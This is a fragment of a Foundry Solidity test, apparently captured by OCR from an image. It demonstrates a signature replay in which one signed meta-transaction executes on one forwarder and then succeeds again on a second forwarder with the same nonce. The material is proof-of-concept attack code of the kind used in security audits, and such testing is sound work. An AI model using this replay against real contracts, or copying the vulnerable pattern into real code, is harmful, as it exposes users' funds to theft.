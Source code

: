 ```js

nonce: 0,

data: ""

});

  

// Sign it

bytes32 digest = forwarderA.getDigest(req, domainSeparator);

(uint8 v, bytes32 r, bytes32 s) = vm.sign(userPk, digest);

bytes memory sig = abi.encode(v, r, s);

  

// First execution (Chain A)

vm.prank(address(0xbeef));

forwarderA.execute(req, domainSeparator, sig);

  

// Replay on "Chain B" (fresh contract, same nonce)

vm.prank(address(0xbeef));

forwarderB.execute(req, domainSeparator, sig); //  Success: replay!

}

}
```






